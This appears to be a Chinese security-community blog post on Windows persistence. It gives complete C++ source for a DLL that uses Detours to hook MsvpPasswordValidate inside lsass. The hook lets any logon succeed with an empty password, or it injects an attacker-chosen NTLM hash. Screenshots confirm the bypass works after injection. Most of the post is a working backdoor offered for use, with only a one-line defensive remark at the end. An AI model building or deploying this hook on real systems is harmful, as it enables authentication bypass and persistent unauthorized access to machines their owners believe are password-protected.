







# Windows MsvpPasswordValidate 实现权限维持 - 先知社区

Windows MsvpPasswordValidate 实现权限维持

- - -

# Windows 权限维持-MsvpPasswordValidate

## 安装

首先需要安装 detours，在官网下载，并 nmake 编译即可，编译完成之后拿过 lib 和头文件即可。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204164024-09dedc08-c339-1.png)  
这个库具体什么功能，如下，来自网上：

```plain
Detours 是由 Microsoft Research 创建的一个库，用于 Windows 操作系统上的二进制代码注入和修改。Detours 的主要作用是通过修改二进制代码，实现对函数的重定向、替换或者跟踪。这一功能对于在运行时修改应用程序的行为、实现代码注入、性能分析等方面非常有用。
Detours 库的主要功能包括：
函数 Hooking（勾取）：Detours 允许开发者在运行时修改应用程序的二进制代码，将某个函数的调用重定向到用户指定的函数。这可以用于实现函数的拦截、替换或者在函数调用前后执行额外的操作。
代码注入：Detours 可以用于将自定义代码注入到目标进程的地址空间中，从而在目标进程中执行自定义逻辑。这对于一些调试、分析或者修改程序行为的需求非常有用。
性能分析：通过使用 Detours，你可以跟踪函数的调用情况，记录函数执行时间，实现性能分析和调优。
API Hooking：Detours 也可用于对 Windows API 进行 Hooking，从而在应用程序调用某个 API 时执行额外的逻辑，实现对系统调用的监控和修改。
需要注意的是，Detours 是一个研究性质的库，使用它需要了解 Windows 操作系统底层的一些知识，并且在一些场景下可能涉及到一些安全和稳定性的考虑。Detours 库在 Windows 平台上是一个强大的工具，但使用时需要小心谨慎，确保不会引起系统或应用程序的异常行为。
```

### 代码实现及思路

在前期的资料搜寻时，网上有一种思路是通过 MsvpPasswordValidate 实现本地 hash 的提取。  
在 Windows 10 操作系统中，该 api 在 NtlmShared.dll 中。通过查看导出表可以发现。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204164943-576e039e-c33a-1.png)  
该 API 结构如下 (为了易懂)：

```plain
typedef BOOLEAN(WINAPI* pMsvpPasswordValidate)
(BOOLEAN, 
NETLOGON_LOGON_INFO_CLASS,
PVOID, 
void*, 
PULONG, 
PUSER_SESSION_KEY,
PVOID);

MsvpPasswordValidate(
    UasCompatibilityRequired, 
    LogonLevel, 
    LogonInformation, 
    Passwords, 
    UserFlags, 
    UserSessionKey, 
    LmSessionKey)
```

上面的 Passwords 为一个结构体指针，里面有密码相关的 hash。  
在网上有一篇文章，通过注入 lsass 提取 hash 可以来看，通过获取 passwords 后，将其保存到了文件。每当用户登录时，都会保存。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204165903-a4f0d410-c33b-1.png)  
首先来编写这个 DLL，一个安装，一个卸载。

```plain
BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        return InstallHook();
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        return UninstallHook();
    }
    return TRUE;
}
```

接着就是 Hook 代码的实现，在 DetourAttach 中其实就是一个 hook 操作，而实现函数为 HookMSVPPValidate。这里 111.txt 无太大作用，刚开始为了调 bug，索性加的。

```plain
bool InstallHook() {
    std::wofstream credentialFile;
    credentialFile.open("D:\\111.txt", std::fstream::in | std::fstream::out | std::fstream::app);
    HMODULE ntmlModule = LoadLibrary(L"NtlmShared.dll");
    if (ntmlModule == nullptr) {
        credentialFile << L"Domain: " << L"load error" << std::endl;
        return false;
    }
    MsvpPasswordValidate = (pMsvpPasswordValidate)GetProcAddress(ntmlModule, "MsvpPasswordValidate");
    credentialFile << L"Domain: " << L"MsvpPasswordValidate address: " << MsvpPasswordValidate << std::endl;
    if (MsvpPasswordValidate == nullptr) {
        credentialFile << L"Domain: " << L"GetProcAddress error" << std::endl;
        return false;
    }
    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());
    LONG detourAttachResult = DetourAttach(&(PVOID&)MsvpPasswordValidate, HookMSVPPValidate);
    if (detourAttachResult != NO_ERROR) {
        credentialFile << L"Domain: " << L"DetourAttach error - " << detourAttachResult << std::endl;
        DetourTransactionAbort();
        return false;
    }
    LONG code = DetourTransactionCommit();
    if (code != NOERROR) {
        credentialFile << L"Domain: " << L"Error" << std::endl;
    }
    else {
        credentialFile << L"Domain: " << L"true" << std::endl;
    }
    credentialFile.close();
    return true;
}
```

而 HookMSVPPValidate 就是做操作的地方了。这里有两种方式。  
1.不用输入密码

```plain
BOOLEAN HookMSVPPValidate(BOOLEAN UasCompatibilityRequired,
    NETLOGON_LOGON_INFO_CLASS LogonLevel,
    PVOID LogonInformation,
    void* Passwords,
    PULONG UserFlags,
    PUSER_SESSION_KEY UserSessionKey,
    PVOID LmSessionKey) {
    return TRUE;
}
```

2.设置特定密码 这里就是可以通过拿一个 hash 赋值进去。

```plain
BOOLEAN HookMSVPPValidate(BOOLEAN UasCompatibilityRequired,
    NETLOGON_LOGON_INFO_CLASS LogonLevel,
    PVOID LogonInformation,
    void* Passwords,
    PULONG UserFlags,
    PUSER_SESSION_KEY UserSessionKey,
    PVOID LmSessionKey) {
    NETLOGON_LOGON_IDENTITY_INFO* logonIdentity = (NETLOGON_LOGON_IDENTITY_INFO*)LogonInformation;
    BOOLEAN Login_IF;
    if (MsvpPasswordValidate(UasCompatibilityRequired, LogonLevel, LogonInformation, Passwords, UserFlags, UserSessionKey, LmSessionKey)) {
        return TRUE;
    }
    else {
        const unsigned char pass[] = { 你的 hash };
        for (int i = 0; i < 16; i++) {
            ((unsigned char*)Passwords)[i] = pass[i];
        }
        return MsvpPasswordValidate(UasCompatibilityRequired, LogonLevel, LogonInformation, Passwords, UserFlags, UserSessionKey, LmSessionKey);
    }
}
```

首先来测试第一种方式。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204170915-11980592-c33d-1.png)  
编译之后，通过 Process 该工具将 dll 注入到 lsass 中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204171050-4a602bc0-c33d-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204171508-e4030bb2-c33d-1.png)  
直接空密码即可登录，当然这里使用原密码也是可以登录的。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240204171639-1a5f4856-c33e-1.png)  
至于第二种方式一样，通过修改 const unsigned char pass\[\] = { 你的 hash };来自定义密码登录。  
写到这里就完了吗？还有卸载 HOOK 的代码没实现呢~

```plain
bool UninstallHook() {
    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());
    DetourDetach(&(PVOID&)MsvpPasswordValidate, HookMSVPPValidate);
    DetourTransactionCommit();
    return TRUE;
}
```

至此整个就实现了，实现流程很简单。  
全部实现如下，和 lsass dump hash 原理一样。

```plain
#pragma once
#define SECURITY_WIN32
#define WIN32_LEAN_AND_MEAN
#define DEBUG_BUILD

#include <windows.h>
#include <SubAuth.h>
#include <iostream>
#include <fstream>
#include <string>
#include "detours.h"
#pragma comment (lib,"detours.lib")

typedef BOOLEAN(WINAPI* pMsvpPasswordValidate)(BOOLEAN, NETLOGON_LOGON_INFO_CLASS, PVOID, void*, PULONG, PUSER_SESSION_KEY, PVOID);
pMsvpPasswordValidate MsvpPasswordValidate = nullptr;
BOOLEAN HookMSVPPValidate(BOOLEAN UasCompatibilityRequired,
    NETLOGON_LOGON_INFO_CLASS LogonLevel,
    PVOID LogonInformation,
    void* Passwords,
    PULONG UserFlags,
    PUSER_SESSION_KEY UserSessionKey,
    PVOID LmSessionKey) {

    return TRUE;

}
bool InstallHook() {
    std::wofstream credentialFile;
    credentialFile.open("D:\\111.txt", std::fstream::in | std::fstream::out | std::fstream::app);

    HMODULE ntmlModule = LoadLibrary(L"NtlmShared.dll");
    if (ntmlModule == nullptr) {
        credentialFile << L"Domain: " << L"load error" << std::endl;
        return false;
    }

    MsvpPasswordValidate = (pMsvpPasswordValidate)GetProcAddress(ntmlModule, "MsvpPasswordValidate");
    credentialFile << L"Domain: " << L"MsvpPasswordValidate address: " << MsvpPasswordValidate << std::endl;

    if (MsvpPasswordValidate == nullptr) {
        credentialFile << L"Domain: " << L"GetProcAddress error" << std::endl;
        return false;
    }

    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());

    LONG detourAttachResult = DetourAttach(&(PVOID&)MsvpPasswordValidate, HookMSVPPValidate);


    if (detourAttachResult != NO_ERROR) {
        credentialFile << L"Domain: " << L"DetourAttach error - " << detourAttachResult << std::endl;
        DetourTransactionAbort();
        return false;
    }

    LONG code = DetourTransactionCommit();
    if (code != NOERROR) {
        credentialFile << L"Domain: " << L"Error" << std::endl;

    }
    else {
        credentialFile << L"Domain: " << L"true" << std::endl;
    }
    credentialFile.close();
    return true;
}
bool UninstallHook() {
    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());
    DetourDetach(&(PVOID&)MsvpPasswordValidate, HookMSVPPValidate);
    DetourTransactionCommit();
    return TRUE;
}
BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        return InstallHook();

    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        return UninstallHook();
    }
    return TRUE;
}
```

防范的话，通过 Process 进程分析工具，分析可疑 dll。
